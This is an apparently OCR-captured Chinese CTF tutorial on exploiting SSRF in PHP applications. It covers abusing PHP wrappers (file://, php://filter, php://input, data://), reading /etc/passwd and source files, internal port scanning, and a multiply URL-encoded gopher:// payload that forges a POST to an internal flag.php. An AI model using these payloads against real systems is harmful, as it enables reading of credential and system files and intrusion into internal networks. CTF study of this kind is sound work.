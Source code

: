 
SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能，且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，文档等等

SSRF漏洞通过篡改获取资源的请求发送给服务器（服务器并没有检测这个请求是否合法的），然后服务器以他的身份来访问服务器的其他资源。SSRF利用存在缺陷的Web应用作为代理攻击远程和本地的服务器

# PHP伪协议

php支持的协议和封装协议

### \file://文件绝对路径和文件名
file:// 用于访问本地文件系统，在CTF中通常用来读取本地文件的且不受配置文件中allow_url_fopen与allow_url_include的影响

常用敏感路径：file:///var/www/html/index.php、file:/etc/passwd

### dict://

### php://
使用条件(php.ini配置)：

                                  allow_url_fopen	  allow_url_include
php://input	                         on/off	                          on       （常用）
php://stdin	                         on/off	                          on
php://memory	                     on/off	                          on
php://temp                           on/off	                          on
php://filter	                         on/off	                        on/off      (常用)



#### php://filter
		名称                            	                 描述
resource<--->要过滤的数据流	 这是个必要参数。它指定了你需要筛选过滤的数据流(简单来说就是你的数据来源)
read<--->读链的筛选列表	        这个参数可选。可以设定一个或多个过滤器名称。以管道符（/）分隔
write<--->读链的筛选列表	        这个参数可选。可以设定一个或多个过滤器名称。以管道符（/）分隔

格式如下：
读：php://filter/resource=文件名
 
php://filter/read=convert.base64-encode/resource=文件名(**常常**当源码不能直接被读取时，采用base64加密)
 
写：php://filter/resource=文件名&txt=文件内容
 
php://filter/write=convert.base64-encode/resource=文件名&txt=文件内容



#### php://input
                   ----可以访问请求的原始数据的只读流, 将post请求中的数据作为PHP代码执行。

php://input是php语言中一个只读的数据流；通过"php://input"，可以读取从Http客户端以POST方式提交、请求头“Content-Type”值非"multipart/form-data​"的所有数据；"php://input"一般用来读取POST上来，除已被处理以外的剩余数据。

说白了就是当遇到正则匹配时GET传参不能出现的敏感字符，可以通过php://input在POST上传最后绕过了检测

```
GET : index.php?cmd=php://input
 
POST : flag.php(目的数据)
```

data:// 协议和php://input作用相同，如果碰到input被过滤的情况可以用其替代

zip://, bzip2://, **zlib://** 均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名


## 文件扫描

扫描?url=127.0.0.1/x

## 端口扫描

通过服务器访问内网地址，直接用bp爆破url传参中的端口即可：127.0.0.1:x

## POST请求（gopher协议）

如果在x.php可以利用curl传url，那么我们可以用gopher协议在x.php中构造post请求包往flag.php传key值，以此获取flag

gopher协议没有默认端口，需要特殊指定，而且需要指定POST方法，回车换行需要使用%0d%0a,而且POST参数之间的&分隔符也需要URL编码
```
POST /flag.php HTTP/1.1
Host: 127.0.0.1:80
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

key=d93819c4c1a18dc606dc5c6486f77227
```
gopher的数据需要用url编码多次之后再发送，且第一次编码后%0A需全部替换成%0D%0A，现在进行编码
content-lenght为key值长度

##### gopher使用结构gopher://127.0.0.1:80/_{TCP/IP数据流}

以下为注入样例
```
?url=http://127.0.0.1:80/index.php?url=gopher://127.0.0.1:80/_POST%252520/flag.php%252520HTTP/1.1%25250D%25250AHost%25253A%252520127.0.0.1%25253A80%25250D%25250AContent-Type%25253A%252520application/x-www-form-urlencoded%25250D%25250AContent-Length%25253A%25252036%25250D%25250A%25250D%25250Akey%25253D0bd5e192bb3c5e0f3df6b8ddf4252d9c
```

因为curl在index.php中

